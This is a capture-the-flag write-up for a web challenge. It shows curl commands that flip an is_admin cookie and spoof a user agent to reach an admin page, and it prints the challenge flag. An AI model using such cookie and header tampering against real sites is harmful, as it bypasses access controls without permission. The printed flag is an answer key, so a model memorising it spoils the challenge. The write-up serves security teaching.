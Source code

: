 # Inspector Gadget
Category: Web

## Description
> [YouTube Video](https://www.youtube.com/watch?v=EcF2LOaLgA0&feature=youtu.be)

## Solution

We enter the website and get a simple page with three links: "Home", "About", and "Admin". If we click "Admin", we get redirected back to the index with an error message: "*You're not admin*".

Let's check the website cookies:

```console
root@kali:/media/sf_CTFs/technion/236927_-_Introduction_to_Robotics# curl http://ctf.cs.technion.ac.il:4009/ -I
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 6444
Set-Cookie: is_admin=0; Path=/
Server: Werkzeug/1.0.1 Python/3.6.1
Date: Fri, 18 Dec 2020 19:53:39 GMT
```

What if we change `is_admin` to `1`? In this case, when we revisit the webpage we get a different message: "*You can see this page only by browsing with InspectorBrowser*".

So, let's change the user agent too:

```console
root@kali:/media/sf_CTFs/technion/236927_-_Introduction_to_Robotics# curl 'http://ctf.cs.technion.ac.il:4009/admin' -H 'User-Agent: InspectorBrowser' -H 'Cookie: is_admin=1' -s | grep cstechnion
      <h1> cstechnion{G0_go_6adg3t!} </h1>
```